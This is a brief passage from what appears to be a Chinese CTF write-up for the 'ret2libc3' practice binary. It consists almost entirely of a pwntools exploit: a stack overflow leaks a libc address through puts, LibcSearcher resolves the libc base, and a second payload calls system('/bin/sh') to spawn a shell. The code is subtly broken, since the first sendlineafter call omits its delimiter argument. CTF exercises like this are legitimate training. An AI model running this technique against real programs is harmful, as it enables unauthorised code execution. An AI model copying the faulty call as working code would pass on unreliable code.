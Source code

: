 system和/bin/sh都没有，于是从libc里面找。

```python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'

sh = process('./ret2libc3')
ret2libc3 = ELF('./ret2libc3')

# gdb.attach(sh)

libc_start_main_got = ret2libc3.got['__libc_start_main']
main_addr = ret2libc3.symbols['main']
puts_plt = ret2libc3.plt['puts']

payload1 = flat(['A'*112,puts_plt, main_addr, libc_start_main_got])

sh.sendlineafter( payload1)

libc_start_main_addr = u32(sh.recv()[0:4])

# 在LibcSearcher中，函数地址为int类型，hex()的返回值为str类型
print("get __start_main address in libc: "+hex(libc_start_main_addr))
libc = LibcSearcher("__libc_start_main",libc_start_main_addr)

libc_base = libc_start_main_addr - libc.dump('__libc_start_main')

libc_binsh_addr = libc_base + libc.dump('str_bin_sh')
libc_system_addr = libc_base + libc.dump('system')

payload2 = flat(['A'*104,libc_system_addr,0xdeadbeef,libc_binsh_addr])

sh.sendlineafter('Can you find it !?', payload2)

sh.interactive()
```

